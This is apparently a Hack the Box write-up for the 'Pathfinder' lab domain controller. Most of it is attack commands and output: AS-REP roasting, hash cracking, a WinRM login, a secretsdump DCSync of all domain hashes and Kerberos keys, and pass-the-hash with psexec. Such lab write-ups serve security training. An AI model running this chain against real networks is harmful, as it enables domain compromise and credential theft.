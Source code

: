 +++
title = "Hack the Box: Pathfinder"
date = 2023-01-22
description = "Hack the Box: Pathfinder"
tags = [
    "Hack the Box",
    "Write-up"
]
+++

# Pathfinder

## Enumeration

`masscan -p 1-65535 10.10.10.30 -e tun0 --rate=1000`

Port 88 is typically associated with Kerberos and port 389 with LDAP, which indicates that this is a Domain Controller. We note that WinRM is enabled on port 5985.

Using the credentials we obtained in a previous machine; `sandra:Password1234!`

`bloodhound-python -d megacorp.local -u sandra -p "Password1234\!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30`

`sudo NEO4J_HOME=/usr/share/java/neo4j neo4j start`

Connection with neo4j:neo4j then neo4j:bloodhound

## Foothold

```
/usr/bin/GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:6f4bdd147809926ee4f67179ae627cb6$7fe338746bc4b367f627c1588608c30ec756fc0a70e4a01e0f500198ec3b21f30cd54cc4d654af2e378bb8a633eea59d671af12e5d6cd7af29f4dfb1ca3c8003ee335be6292b88f9ed9cca5c8cf6113228194ee60d57d88468e5571205aac97837d2ca413cf1f3032fa2833962dfbb36db611a56f2c26d4d5e9c5203d5bcd6e9cc15476468e57de0f2baa8a89d97f5d9ba16a781624d45c4851940e315f798b4593a7df20bb660ef694c60ce9a818c2e7f585d7dd0388b8e6bed079eedd3398276a506f5bf1ec72148e8e2c0d73b440226dd7fc014d92ffe213810b9ef9d763c55be153c7cc3d2763c8c06fbc2baf3b7
```

```
john hash -wordlist=/usr/share/wordlists/rockyou.txt
```

It is now possible to access the server as svc_bes using WinRM:

```
/usr/bin/evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
```

```
*Evil-WinRM* PS C:\Users\svc_bes\Documents> cat ../Desktop/user.txt
b05fb166688a8603d970c6d033f637f1
```

## Privilege Escalation

```
secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:88c7041ce91766c8753c54708ecd3632:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:1628d4b5188101405a82cf1efc1e0b7d046a065673413b28741e59cea8968e04
PATHFINDER$:aes128-cts-hmac-sha1-96:4a7171e3d79a34e6693415742d20f008
PATHFINDER$:des-cbc-md5:e364941fc7ef5dd3
[*] Cleaning up... 
```

Now use psexec with the admin hashes:

```
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```

```
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
ee613b2d048303e5fd4ac6647d944645
```
